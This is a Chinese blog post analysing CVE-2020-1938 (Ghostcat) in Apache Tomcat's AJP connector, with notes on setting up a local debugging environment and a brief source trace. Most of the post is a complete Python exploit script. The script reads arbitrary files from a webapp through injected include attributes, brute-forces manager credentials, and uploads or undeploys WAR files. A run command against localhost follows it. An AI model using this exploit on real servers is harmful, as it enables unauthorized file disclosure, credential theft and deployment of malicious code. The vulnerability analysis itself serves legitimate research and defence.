





# CVE-2020-1938 : Tomcat-Ajp 漏洞分析 - ph4nt0mer - 博客园

> 原文：[`www.cnblogs.com/ph4nt0mer/p/12350002.html`](https://www.cnblogs.com/ph4nt0mer/p/12350002.html)

大坑在环境调试。

先看下漏洞影响版本

*   Apache Tomcat 9.x < 9.0.31
*   Apache Tomcat 8.x < 8.5.51
*   Apache Tomcat 7.x < 7.0.100
*   Apache Tomcat 6.x

这边本地环境是 tomcat7.0.96+jdk7 来进行复现。

根据漏洞初步分析是在 ajp 协议这块。百度搜索 ajp 和 tomcat 的相关信息。

搜索到[`www.iteye.com/blog/desert3-1419956`](https://www.iteye.com/blog/desert3-1419956)

根据 Server.xml 中配置的协议 AJP/1.3，调用 org.apache.coyote.ajp.AjpAprProtocol 来后续处理

那就知道了 jar 包的路径了。E:/study/tomcat7/lib/tomcat-coyote.jar!/org/apache/coyote/ajp/AjpAprProtocol.class。在这个 tomcat 的 class 下打断点，local 方式启动 tomcat7 看看。能不能断点成功。



断点成功，说明程序没问题。在环境 tomcat 调试的过程中，tomcat 需要 1.7jdk or later，然后在配置文件中也需要设置 1.7jre 等情况才能成功启动。我目前因为环境原因，在 tomcat 的启动文件配置中把 java_home 和 jre_home 是写死的。

 贴上 POC

```
#!/usr/bin/env python #
# Julien Legras - Synacktiv #
# THIS SOFTWARE IS PROVIDED BY SYNACKTIV ''AS IS'' AND ANY # EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED # WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE # DISCLAIMED. IN NO EVENT SHALL SYNACKTIV BE LIABLE FOR ANY # DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES # (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; # LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND # ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT # (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS # SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.

from ajpy.ajp import AjpResponse, AjpForwardRequest, AjpBodyRequest, NotFoundException from pprint import pprint, pformat from base64 import b64encode import socket import argparse import logging import re import os import logging import sys try: from urllib import unquote except ImportError: from urllib.parse import unquote def setup_logger():
    logger = logging.getLogger('meow')
    handler = logging.StreamHandler()
    logger.addHandler(handler)
    logger.setLevel(logging.DEBUG) return logger

logger = setup_logger() # helpers
def prepare_ajp_forward_request(target_host, req_uri, method=AjpForwardRequest.GET):
    fr = AjpForwardRequest(AjpForwardRequest.SERVER_TO_CONTAINER)
    fr.method = method
    fr.protocol = "HTTP/1.1" fr.req_uri = req_uri
    fr.remote_addr = target_host
    fr.remote_host = None
    fr.server_name = target_host
    fr.server_port = 80 fr.request_headers = { 'SC_REQ_ACCEPT': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8', 'SC_REQ_CONNECTION': 'keep-alive', 'SC_REQ_CONTENT_LENGTH': '0', 'SC_REQ_HOST': target_host, 'SC_REQ_USER_AGENT': 'Mozilla/5.0 (X11; Linux x86_64; rv:46.0) Gecko/20100101 Firefox/46.0', 'Accept-Encoding': 'gzip, deflate, sdch', 'Accept-Language': 'en-US,en;q=0.5', 'Upgrade-Insecure-Requests': '1', 'Cache-Control': 'max-age=0' }
    fr.is_ssl = False

    fr.attributes = [] return fr class Tomcat(object): def __init__(self, target_host, target_port):
        self.target_host = target_host
        self.target_port = target_port

        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        self.socket.connect((target_host, target_port))
        self.stream = self.socket.makefile("rb") def test_password(self, user, password):
        res = False
        stop = False
        self.forward_request.request_headers['SC_REQ_AUTHORIZATION'] = "Basic " + b64encode("%s:%s" % (user, password)).replace('\n', '') while not stop:
            logger.debug("testing %s:%s" % (user, password))
            responses = self.forward_request.send_and_receive(self.socket, self.stream)
            snd_hdrs_res = responses[0] if snd_hdrs_res.http_status_code == 404: raise NotFoundException("The req_uri %s does not exist!" % self.req_uri) elif snd_hdrs_res.http_status_code == 302:
                self.req_uri = snd_hdrs_res.response_headers.get('Location', '')
                logger.info("Redirecting to %s" % self.req_uri)
                self.forward_request.req_uri = self.req_uri elif snd_hdrs_res.http_status_code == 200:
                logger.info("Found valid credz: %s:%s" % (user, password))
                res = True
                stop = True if 'Set-Cookie' in snd_hdrs_res.response_headers:
                    logger.info("Here is your cookie: %s" % (snd_hdrs_res.response_headers.get('Set-Cookie', ''))) elif snd_hdrs_res.http_status_code == 403:
                logger.info("Found valid credz: %s:%s but the user is not authorized to access this resource" % (user, password))
                stop = True elif snd_hdrs_res.http_status_code == 401:
                stop = True return res def start_bruteforce(self, users, passwords, req_uri, autostop):
        logger.info("Attacking a tomcat at ajp13://%s:%d%s" % (self.target_host, self.target_port, req_uri))
        self.req_uri = req_uri
        self.forward_request = prepare_ajp_forward_request(self.target_host, self.req_uri)

        f_users = open(users, "r")
        f_passwords = open(passwords, "r")

        valid_credz = [] try: for user in f_users:
                f_passwords.seek(0, 0) for password in f_passwords: if autostop and len(valid_credz) > 0:
                        self.socket.close() return valid_credz

                    user = user.rstrip('\n')
                    password = password.rstrip('\n') if self.test_password(user, password):
                        valid_credz.append((user, password)) except NotFoundException as e:
            logger.fatal(e.message) finally:
            logger.debug("Closing socket...")
            self.socket.close() return valid_credz def perform_request(self, req_uri, headers={}, method='GET', user=None, password=None, attributes=[]):
        self.req_uri = req_uri
        self.forward_request = prepare_ajp_forward_request(self.target_host, self.req_uri, method=AjpForwardRequest.REQUEST_METHODS.get(method))
        logger.debug("Getting resource at ajp13://%s:%d%s" % (self.target_host, self.target_port, req_uri)) if user is not None and password is not None:
            creds = b64encode(("%s:%s" % (user, password)).encode('utf-8')).decode('utf-8')
            self.forward_request.request_headers['SC_REQ_AUTHORIZATION'] = "Basic " + creds for h in headers:
            self.forward_request.request_headers[h] = headers[h] for a in attributes:
            self.forward_request.attributes.append(a)

        responses = self.forward_request.send_and_receive(self.socket, self.stream) if len(responses) == 0: return None, None

        snd_hdrs_res = responses[0]

        data_res = responses[1:-1] if len(data_res) == 0:
            logger.info("No data in response. Headers:\n %s" % pformat(vars(snd_hdrs_res))) return snd_hdrs_res, data_res def upload(self, filename, user, password, old_version, headers={}):
        deploy_csrf_token, obj_cookie = self.get_csrf_token(user, password, old_version, headers)
        with open(filename, "rb") as f_input:
            with open("/tmp/request", "w+b") as f:
                s_form_header = '------WebKitFormBoundaryb2qpuwMoVtQJENti\r\nContent-Disposition: form-data; name="deployWar"; filename="%s"\r\nContent-Type: application/octet-stream\r\n\r\n' % os.path.basename(filename)
                s_form_footer = '\r\n------WebKitFormBoundaryb2qpuwMoVtQJENti--\r\n' f.write(s_form_header.encode('utf-8'))
                f.write(f_input.read())
                f.write(s_form_footer.encode('utf-8'))

        data_len = os.path.getsize("/tmp/request")

        headers = { "SC_REQ_CONTENT_TYPE": "multipart/form-data; boundary=----WebKitFormBoundaryb2qpuwMoVtQJENti", "SC_REQ_CONTENT_LENGTH": "%d" % data_len, "SC_REQ_REFERER": "http://%s/manager/html/" % (self.target_host), "Origin": "http://%s" % (self.target_host),
        } if obj_cookie is not None:
            headers["SC_REQ_COOKIE"] = obj_cookie.group('cookie')

        attributes = [{"name": "req_attribute", "value": ("JK_LB_ACTIVATION", "ACT")}, {"name": "req_attribute", "value": ("AJP_REMOTE_PORT", "12345")}] if old_version == False:
            attributes.append({"name": "query_string", "value": deploy_csrf_token})
        old_apps = self.list_installed_applications(user, password, old_version)
        r = self.perform_request("/manager/html/upload", headers=headers, method="POST", user=user, password=password, attributes=attributes)

        with open("/tmp/request", "rb") as f:
            br = AjpBodyRequest(f, data_len, AjpBodyRequest.SERVER_TO_CONTAINER)
            br.send_and_receive(self.socket, self.stream)

        r = AjpResponse.receive(self.stream) if r.prefix_code == AjpResponse.END_RESPONSE:
            logger.error('Upload failed') while r.prefix_code != AjpResponse.END_RESPONSE:
            r = AjpResponse.receive(self.stream)
        logger.debug('Upload seems normal. Checking...')
        new_apps = self.list_installed_applications(user, password, old_version) if len(new_apps) == len(old_apps) + 1 and new_apps[:-1] == old_apps:
            logger.info('Upload success!') else:
            logger.error('Upload failed') def get_error_page(self): return self.perform_request("/blablablablabla") def get_version(self):
        hdrs, data = self.get_error_page() for d in data:
            s = re.findall('(Apache Tomcat/[0-9\.]+)', d.data.decode('utf-8')) if len(s) > 0: return s[0] def get_csrf_token(self, user, password, old_version, headers={}, query=[]): # first we request the manager page to get the CSRF token
        hdrs, rdata = self.perform_request("/manager/html", headers=headers, user=user, password=password)
        deploy_csrf_token = re.findall('(org.apache.catalina.filters.CSRF_NONCE=[0-9A-F]*)"', "".join([d.data.decode('utf8') for d in rdata])) if old_version == False: if len(deploy_csrf_token) == 0:
                logger.critical("Failed to get CSRF token. Check the credentials") return logger.debug('CSRF token = %s' % deploy_csrf_token[0])
        obj = re.match("(?P<cookie>JSESSIONID=[0-9A-F]*); Path=/manager(/)?; HttpOnly", hdrs.response_headers.get('Set-Cookie', '').decode('utf-8')) if obj is not None: return deploy_csrf_token[0], obj return deploy_csrf_token[0], None def list_installed_applications(self, user, password, old_version, headers={}):
        deploy_csrf_token, obj_cookie = self.get_csrf_token(user, password, old_version, headers)
        headers = { "SC_REQ_CONTENT_TYPE": "application/x-www-form-urlencoded", "SC_REQ_CONTENT_LENGTH": "0", "SC_REQ_REFERER": "http://%s/manager/html/" % (self.target_host), "Origin": "http://%s" % (self.target_host),
        } if obj_cookie is not None:
            headers["SC_REQ_COOKIE"] = obj_cookie.group('cookie')

        attributes = [{"name": "req_attribute", "value": ("JK_LB_ACTIVATION", "ACT")},
            {"name": "req_attribute", "value": ("AJP_REMOTE_PORT", "{}".format(self.socket.getsockname()[1]))}] if old_version == False:
            attributes.append({ "name": "query_string", "value": "%s" % deploy_csrf_token})
        hdrs, data = self.perform_request("/manager/html/", headers=headers, method="GET", user=user, password=password, attributes=attributes)
        found = [] for d in data:
            im = re.findall('/manager/html/expire\?path=([^&]*)&', d.data.decode('utf8')) for app in im:
                found.append(unquote(app)) return found def undeploy(self, path, user, password, old_version, headers={}):
        deploy_csrf_token, obj_cookie = self.get_csrf_token(user, password, old_version, headers)
        path_app = "path=%s" % path
        headers = { "SC_REQ_CONTENT_TYPE": "application/x-www-form-urlencoded", "SC_REQ_CONTENT_LENGTH": "0", "SC_REQ_REFERER": "http://%s/manager/html/" % (self.target_host), "Origin": "http://%s" % (self.target_host),
        } if obj_cookie is not None:
            headers["SC_REQ_COOKIE"] = obj_cookie.group('cookie')

        attributes = [{"name": "req_attribute", "value": ("JK_LB_ACTIVATION", "ACT")},
            {"name": "req_attribute", "value": ("AJP_REMOTE_PORT", "{}".format(self.socket.getsockname()[1]))}] if old_version == False:
            attributes.append({ "name": "query_string", "value": "%s&%s" % (path_app, deploy_csrf_token)})
        r = self.perform_request("/manager/html/undeploy", headers=headers, method="POST", user=user, password=password, attributes=attributes)
        r = AjpResponse.receive(self.stream) if r.prefix_code == AjpResponse.END_RESPONSE:
            logger.error('Undeploy failed') # Check the successful message
        found = False
        regex = r'<small><strong>Message:<\/strong><\/small>&nbsp;<\/td>\s*<td class="row-left"><pre>(OK - .*'+path+')\s*<\/pre><\/td>'
        while r.prefix_code != AjpResponse.END_RESPONSE:
            r = AjpResponse.receive(self.stream) if r.prefix_code == 3:
                f = re.findall(regex, r.data.decode('utf-8')) if len(f) > 0:
                    found = True if found:
            logger.info('Undeploy succeed') else:
            logger.error('Undeploy failed') if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    subparsers = parser.add_subparsers()

    parser.add_argument("target", type=str, help="Hostname or IP to attack")
    parser.add_argument("--port", type=int, default=8009, help="AJP port to attack (default is 8009)")
    parser.add_argument('-v', '--verbose', action='count', default=1)

    parser_bf = subparsers.add_parser('bf', help='Bruteforce Basic authentication')
    parser_bf.set_defaults(which='bf')
    parser_bf.add_argument("req_uri", type=str, default="/manager/html", help="Resource to attack")
    parser_bf.add_argument("-U", "--users", type=str, help="Filename containing the usernames to test against the Tomcat manager AJP", required=True)
    parser_bf.add_argument("-P", "--passwords", type=str, help="Filename containing the passwords to test against the Tomcat manager AJP", required=True)
    parser_bf.add_argument('-s', '--stop', action='store_true', default=False, help="Stop when we find valid credz") # parser_req = subparsers.add_parser('req', help='Request resource') # parser_req.set_defaults(which='req') # parser_req.add_argument("-m", "--method", type=str, default="GET", help="Request method (default=GET)", choices=AjpForwardRequest.REQUEST_METHODS.keys())
 parser_upload = subparsers.add_parser('upload', help='Upload WAR')
    parser_upload.set_defaults(which='upload')
    parser_upload.add_argument("filename", type=str, help="WAR file to upload")
    parser_upload.add_argument("-u", "--user", type=str, default=None, help="Username")
    parser_upload.add_argument("-p", "--password", type=str, default=None, help="Password")
    parser_upload.add_argument("-H", "--headers", type=str, default={}, help="Custom headers")
    parser_upload.add_argument("--old-version", action='store_true', default=False, help="Old version of Tomcat that does not implement anti-CSRF token")

    parser_upload = subparsers.add_parser('undeploy', help='Undeploy WAR')
    parser_upload.set_defaults(which='undeploy')
    parser_upload.add_argument("path", type=str, help="Installed WAR path")
    parser_upload.add_argument("-u", "--user", type=str, default=None, help="Username")
    parser_upload.add_argument("-p", "--password", type=str, default=None, help="Password")
    parser_upload.add_argument("-H", "--headers", type=str, default={}, help="Custom headers")
    parser_upload.add_argument("--old-version", action='store_true', default=False, help="Old version of Tomcat that does not implement anti-CSRF token")

    parser_version = subparsers.add_parser('version', help='Get version')
    parser_version.set_defaults(which='version')
    parser_upload = subparsers.add_parser('list', help='List installed applications')
    parser_upload.set_defaults(which='list')
    parser_upload.add_argument("-u", "--user", type=str, default=None, help="Username")
    parser_upload.add_argument("-p", "--password", type=str, default=None, help="Password")
    parser_upload.add_argument("-H", "--headers", type=str, default={}, help="Custom headers")
    parser_upload.add_argument("--old-version", action='store_true', default=False, help="Old version of Tomcat that does not implement anti-CSRF token")

    read_file = subparsers.add_parser('read_file', help='Exploit CVE-2020-1938')
    read_file.set_defaults(which='read_file')
    read_file.add_argument("file_path", type=str, help="File to read")
    read_file.add_argument("-w", "--webapp", type=str, default="", help="Webapp")
    read_file.add_argument("-o", "--output", type=str, help="Output file (for binary files)")

    args = parser.parse_args() if args.verbose == 1:
        logger.setLevel(logging.INFO) else:
        logger.setLevel(logging.DEBUG)

    bf = Tomcat(args.target, args.port) if args.which == 'bf':
        bf.start_bruteforce(args.users, args.passwords, args.req_uri, args.stop) # elif args.which == 'req': # print bf.perform_request(args.req_uri, args.headers, args.method, args.user, args.password)
    elif args.which == 'upload':
        bf.upload(args.filename, args.user, args.password, args.old_version, args.headers) elif args.which == 'version': print(bf.get_version()) elif args.which == 'list':
        apps = bf.list_installed_applications(args.user, args.password, args.old_version, args.headers)
        logger.info("Installed applications:") for app in apps:
            logger.info('- ' + app) elif args.which == 'undeploy':
        bf.undeploy(args.path, args.user, args.password, args.old_version, args.headers) elif args.which == 'read_file':
        attributes = [
            {"name": "req_attribute", "value": ("javax.servlet.include.request_uri", "1",)},
            {"name": "req_attribute", "value": ("javax.servlet.include.path_info", args.file_path,)},
            {"name": "req_attribute", "value": ("javax.servlet.include.servlet_path", "",)},
        ]
        hdrs, data = bf.perform_request("/" + args.webapp + "/xxxxx.jsp", attributes=attributes)
        output = sys.stdout if args.output:
            output = open(args.output, "wb") for d in data: if args.output:
                output.write(d.data) else: try:
                    output.write(d.data.decode('utf8')) except UnicodeDecodeError:
                    output.write(repr(d.data)) if args.output:
            output.close()
```

λ python tomcat.py read_file --webapp=manager /WEB-INF/web.xml 127.0.0.1

基础关系链



AjpAprProcessor.class 第 97 行，this.prepareRequest();

AbstractAjpProcessor.class 的 prepareRequest 函数进行跟踪。

获取到 headers 的内容：

```
 1 === MimeHeaders ===
 2 accept = text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
 3 connection = keep-alive
 4 content-length = 0
 5 host = 127.0.0.1
 6 user-agent = Mozilla/5.0 (X11; Linux x86_64; rv:46.0) Gecko/20100101 Firefox/46.0
 7 Accept-Encoding = gzip, deflate, sdch
 8 Accept-Language = en-US,en;q=0.5
 9 Upgrade-Insecure-Requests = 1 10 Cache-Control = max-age=0
```



/apache-tomcat-7.0.94/lib/tomcat-coyote.jar!/org/apache/coyote/ajp/AbstractAjpProcessor.class   530 行

```
this.request.setAttribute(n, v);
```

第一次 n,v



第二次 n,v


第三次 n,v



 对应 poc 里面的

```
attributes = [
            {"name": "req_attribute", "value": ("javax.servlet.include.request_uri", "/",)},
            {"name": "req_attribute", "value": ("javax.servlet.include.path_info", args.file_path,)},
            {"name": "req_attribute", "value": ("javax.servlet.include.servlet_path", "/",)},
        ]
```